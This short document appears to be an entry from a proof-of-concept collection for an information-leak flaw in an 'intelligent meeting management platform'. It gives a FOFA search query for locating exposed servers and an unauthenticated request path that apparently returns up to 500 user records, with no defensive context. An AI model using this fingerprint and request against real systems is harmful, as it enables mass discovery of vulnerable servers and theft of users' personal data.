 智能会议管理平台-search-info-leak-信息泄露

fofa

body="smmweb/security"

poc

/meeting/v1/service/user/search?maxSize=500&query=